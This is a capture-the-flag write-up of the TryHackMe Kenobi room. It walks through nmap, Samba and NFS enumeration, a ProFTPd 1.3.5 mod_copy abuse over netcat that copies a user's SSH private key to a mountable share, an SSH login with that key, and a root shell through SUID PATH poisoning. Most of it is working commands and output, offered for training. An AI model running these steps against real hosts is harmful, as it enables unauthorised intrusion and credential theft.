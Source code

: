 ```yaml
---
layout: post
title: Kenobi [TryHackMe]
description: Notes on tryhackme.com's kenobi challenge
tags: ['security', 'tryhackme']
terms: ['linux', 'security', 'thm']
icon: shield-exclamation
---
```


[TryHackMe ~ Kenobi](https://tryhackme.com/room/kenobi)

Includes:
- Recon
  - nmap
  - samba enumeration
  - nfs scans
- Exploit
  - netcat
  - searchsploit
- Privilege esculation
  - SUID binaries
  - PATH poisoning

### Recon

#### Nmap 
Port and service scan:
```bash
nmap -sV -sC <ip> -oX nmap-service-scan.xml | tee nmap-sevice-scan.txt 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 10:42 BST

Not shown: 993 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
    [... removed ...]
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m01s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2021-04-22T04:43:37-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-22T09:43:38
|_  start_date: N/A
```

Samba share enum:
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 10:47 BST
Nmap scan report for <ip>
Host is up (0.57s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\<ip>\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\<ip>\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\<ip>\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

nfs scan:
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>
```
Shows `/var` can be mounted via nfs.

#### Samba
Connect:
```bash
smbclient //<ip>/anonymous
```

Recursive download:
```bash
smbget -R smb://<ip>/anonymous
```
This gave a `log.txt` with some information about usernames, ssh key locations and the ftp service.

#### Searchspoilt
```bash
searchsploit proftp 1.3.5 
------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                |  Path
------------------------------------------------------------------------------ ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                     | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                           | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                     | linux/remote/36742.txt
------------------------------------------------------------------------------ ---------------------------------

searchsploit -p linux/remote/36742.txt
```
`linux/remote/36742.txt` shows an example of using nc and ProFTPd 1.3.5 to copy files to different locations on the system.

### Exploitation

#### Netcat -> ProFTPd File copy
We know the location of the ssh key from `log.txt` and a nfs location of `/var`.

```bash
nc <ip> 21                        
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [<ip>]

SITE CPFR /home/kenobi/.ssh/id_rsa 
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

#### Retrieving key
```bash
mkdir /mnt/kenobi
mount <ip>:/var /mnt/kenobi
cp /mnt/kenobi/tmp/id_rsa .
```

#### Using Key
```bash
chmod 600 id_rsa
ssh -i ./id_rsa kenobi@<ip>
```
and we are in!

#### Privilege Esculation

#### Searching for root suid binaries
```bash
find / -perm -u=s -type f 2>/dev/null
```
This find typical binaries and files like ping, sudo etc and `/usr/bin/menu`

#### Exploiting this

Running `/usr/bin/menu` brings up 3 options that just look like preconfigured system commands.
```
strings /usr/bin/menu

curl -I localhost
uname -r
ifconfig
```
These are the commands that are being used and would be run as root, they don't specify a full path so we can exploit these using the PATH variable to redirect the issued command to our own binary that will be run as root.

```
cd /tmp
echo /bin/sh > curl
chmod 777 curl
PATH=/tmp:$PATH; /usr/bin/menu
```
Run the curl command via the menu binary and `#`, root shell!





